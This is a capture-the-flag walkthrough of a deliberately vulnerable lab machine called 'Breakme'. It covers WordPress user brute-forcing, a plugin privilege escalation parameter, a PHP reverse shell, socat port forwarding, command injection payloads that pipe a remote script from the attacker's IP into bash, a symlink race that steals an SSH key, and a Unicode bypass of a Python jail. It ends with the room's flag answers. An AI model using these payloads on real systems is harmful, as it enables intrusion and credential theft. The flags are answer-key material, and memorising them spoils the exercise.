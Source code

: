 # Breakme

### Break the system
(Flags can be found at the end of this writeup)<br />
Initial nmap scan only shows port 22 and 80 open. The webserver seems just an empty apache webserver, however, a gobuster directory enumeration shows other resources:<br />
![image](https://github.com/user-attachments/assets/1862c187-c3be-4bfc-91f8-f10a88751816)<br />
Movin around on the webserver, I found a login page at `/wordpress/wp-login`. If I try to login with `admin`, I get back a response that the password for that user is wrong. This means that the `admin` user actually exists:<br  />
![image](https://github.com/user-attachments/assets/e8d5dad4-61b2-4bba-ab34-094940f871d0)<br/>
I tried bruteforcing admin account with `wpscan --url http://10.10.75.11/wordpress/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt`, but it didn't work.
Next, the following command ` wpscan --url http://10.10.75.11/wordpress/ -e u,p,t` enumerates users, plugins and templates. This time wpscan found another user, bob: <br />
![image](https://github.com/user-attachments/assets/f0e43a3a-36df-478b-909e-cc0009e989f0)<br />
So now try bruteforce bob: `wpscan --url http://10.10.122.80/wordpress/wp-login.php -U bob -P /usr/share/wordlists/rockyou.txt`. <br />
![image](https://github.com/user-attachments/assets/1e20d13e-626c-495e-a5e1-dbe040bd3060)<br />
His credentials are `bob:soccer`. 
The previous wpscan showed that the website is using an older version of `WP data access`, which is 5.3.8. Searching online, I found [here](https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/) that this version is vulnerable to privilege escalation from subscriber+ to administrator. There's no explicit POC, but the exploit works as follows: 
1) On bob's account, click on `Update Profile`, and intercept the request with Burp Suite
2) Add a parameter to the request: `wpda_role[]=administrator`
3) Forward the request and become admin!
![image](https://github.com/user-attachments/assets/7f6f9ea6-e2b3-447e-8ae7-4b05392e9664)<br />
Now, to upload a reverse shell, we need to upload it in the theme's code, which is found inside `Tools->Themes File Editor`, upload the php reverse shell(I used the [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) one), open a netcat listener on the attackers machine and update the theme: <br />
![image](https://github.com/user-attachments/assets/e2598068-7ab7-4573-a0cb-ae4e2905ead2)<br />
Next, I [stabilized the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal) so that i could maintain my mental integrity.<br />
Running linpaeas, it founds a set of credentials inside wordpress configuration file:<br />
![image](https://github.com/user-attachments/assets/f8e6b88d-9549-4d6b-bf3f-bd73830d8f1f)
So use the given credentials(`econor:SuP3rS3cR37#DB#P@55wd`) to log into the database `mysql -u econor -p`. In the database there are a couple of hashed passwords: <br />
![image](https://github.com/user-attachments/assets/a7d76b78-4539-4024-a637-343439d24388)<br />
We already know bob's password, let's try to crack the admin's password. The hash starts with `$P$`, this means that it is a `Phpass` hash format. I doesn't work, there must be something else. <br />
Linpeas also shows a local service at 127.0.0.1:9999. With `curl` I was able to see that it's a web service. In order to access the web page from the attacker's machine, we need to perform something called `port forwarding`:
1) In the target machine: run `socat TCP-LISTEN:8888,fork TCP:127.0.0.1:9999`
2) In the attacker machine: run `socat TCP4-LISTEN:9998,reuseaddr,fork TCP4:target_ip:8888`
So we are opening port 9998 on the attacker machine and redirecting everything coming in that port to target IP port 8888. Similarly, from the target machine, we redirect everything coming in port 8888 to localhost port 9999, thus accessing the web service. <br />
![image](https://github.com/user-attachments/assets/8d881702-0350-444b-85ed-06f9f0affb30)<br />
The "Check Target" function performs a ping command to the specified IP address. This is very likely a command injection exploit. Here's a list of special characters:<br />
`! @ # $ % ^ & * ( ) - _ = + \ | [ ] { } ; : / ? . >`. <br />
After hours of trying payloads, I found that this `|nc${IFS}10.11.85.53${IFS}5555` worked on the "check user" section. <br />
![image](https://github.com/user-attachments/assets/ef3b720f-e148-4c22-aa4d-23731faf2308)<br />
Now, to get a reverse shell, since we can't use `-`, what we can do is create a `rev.sh` file in our attacker's machine(can be found inside this folder). Next open a netcat listener on the attacker's machine, `nc -lnvp 6666`, and inject the curl command to get the rev.sh file and pipe it into bash. The final payload is this: `|curl${IFS}10.11.85.53/rev.sh|bash` :<br />
![image](https://github.com/user-attachments/assets/5efb5384-f0ed-4d03-ad29-ed0535c63592)<br />
Again, [stabilize the shell](https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal). <br />
I'm now the user `john` and got the first flag. Running again linpeas on the system, there's a SUID file inside `/home/youcef`, called `readfile`. It seems to be working like a `cat` command. If I use it to try to read something on which I don't have permissions, this is what i get: <br />
![image](https://github.com/user-attachments/assets/14814808-a0c9-4b14-aa1a-7a428f809db1)<br />
Also, it doesn't seem to be vulnerable to buffer overflow because I tried running it with really large inputs, but it never goes into segmentation fault. So I decided to analyze it using IDA (I first had to transfer it on my local machine using netcat).<br />
![image](https://github.com/user-attachments/assets/ef559c13-0022-4f04-8b3f-9100b48fdb74)<br />
At the beginning of the main function, there are three checks. The first checks that the program only takes one input from the command line. The second checks that the file_name is valid, and the third checks that the user running the binary is actually john, with id=1002. Next:<br />
![image](https://github.com/user-attachments/assets/63b003a1-c324-4778-bfe2-ae85fefac356)<br />
Here the program uses the function `_strstr` to check if the filename contains the word "flag" and the word "id_rsa". Then it checks if it's a symlink with the `lstat` function, and if it can be accessed with the `_access` function. If any of these conditions are true, then it jumps to the following block:<br />
![image](https://github.com/user-attachments/assets/f13e1d7a-1bf0-4676-aea8-0448e42dc7c8)<br />
And the program stops. If we pass all the checks, then the program goes here: <br />
![image](https://github.com/user-attachments/assets/c69142c8-7751-49ce-aef6-aac01a94f04a)<br />
Here it's opening the file with the function `_open`, and if the the function fails, it will call `__assert_fail` and the program will stop. <br />
Instead, if the file is opened correctly, the program goes here: <br />
![image](https://github.com/user-attachments/assets/40be8666-5de7-407f-8b3a-4d4f171e9874)<br />
Here the program is calling the `_read` function every 1024 bytes. It then sets the file descriptor to 1 (sdtoutput) and calls `_write`, so that the user can read the file. It then checks if the number of written bytes is zero: if it is, then the program stops; if it isn't, then it will read the next 1024 bytes.  <br /><br />

I was stuck here for a long time and couldn't make progress. So I decided to look at an external writeup to see the solution and try to learn something from it. The solution was **race condition**. That's a first to me. <br />
Basically the idea is that since the outcome of the binary depends, among other things, on whether the file is a symlink or not, and since the checks are sequencial, I can try to change the state of the file **between the checks and the read**. From my understanding, the steps of this attack are the following:

    step 1: create a normal file (using the `touch` command). 
    step 2: run the binary in order to read the new file
    step 3: the binary checks that all the conditions are met, including that it is not a symlink
    step 4: in the timeframe right after the checks but right before the file read, make that file a symlink to `.ssh/id_rsa`
    step 5: the binary reads `.ssh/id_rsa`

Of course I don't have the control to stop the program and change the state of the file just as I please. The attack is called **race condition** because "whoever comes first wins", meaning that I have to run a script that makes the normal file and changes it to symlink, and at the same time I have to run the `readfile` binary, hoping that the events will happen in the order listed above. <br />
Of course there's a very low chance that it will happen. That's why the idea is to run the script and the `readfile` binary at the same time and multiple times, hoping that at some point the right conditions will happen and I win the race. 
The first command I need to run is:

    while true; do ln -sf /home/youcef/.ssh/id_rsa symlink; rm symlink; touch symlink; done &
This command creates an infinite loop that creates and destroys a file and makes it into a symlink, constantly changing the state of the target file for the `readfile` binary. <br />
The next command: 

    for i in {1..30}; do /home/youcef/readfile symlink; done
tries to read from the symlink 30 times. <br />
After executing these two commands, I got a bunch of errors, but I also got the `id_rsa` file, so I won the race! Now I copy it in my attacker's machine, I change the permissions with `chmod 600 id_rsa`. Before using it, we need to crack the passphrase. To do it, run `ssh2john id_rsa > id_rsa_hash` and then run `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash`:<br />
![image](https://github.com/user-attachments/assets/64e2672d-90b6-4c35-8869-8ac360bcd8bb)<br />
Now we can log into youcef's account with `ssh youcef@ip_addr -i id_rsa` and prompt the passphrase and get the second flag. <br />
I now need to become root. If I run `sudo -l` I get the following sudo permission: <br />
![image](https://github.com/user-attachments/assets/b4a260cd-a772-4fab-aaff-611e5a185787)<br />
This is a python jail. After searching online for a bit, I found that the solution is in using `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`. <br />
A breakpoint in Python is a debugging tool introduced in Python 3.7 that allows developers to pause program execution and inspect its state interactively. The default implementation of breakpoint() launches the Python Debugger (`pdb`), and `pdb` accepts and executes Python input directly! This means that if I'm able to run the `breakpoint()` command, I could spawn a root shell or directly read the last flag. However the filter blocks the string `breakpoint()`, but it does not block `𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()`! This string is not composed of ASCII characters. Instead, it uses Unicode characters that look visually identical to the ASCII ones but are fundamentally different.<br />
Filters in this Python Jail were likely configured to block literal ASCII strings like breakpoint, but they failed to account for visually similar Unicode variants. Since Python treats Unicode identifiers as valid names, the Jail couldn't recognize or filter the Unicode version of breakpoint:<br />
![image](https://github.com/user-attachments/assets/e4c5988f-bc18-40e9-a7b9-fbdf56976c8f)<br /><br />

This room was really hard for me and I'm not going to lie, I cheated a little. But it's been really informative.


- What is the first flag? `5c3ea0d312568c7ac68d213785b26677`
- What is the second flag? `df5b1b7f4f74a416ae27673b22633c1b`
- What is the root flag? `e257d58481412f8772e9fb9fd47d8ca4`

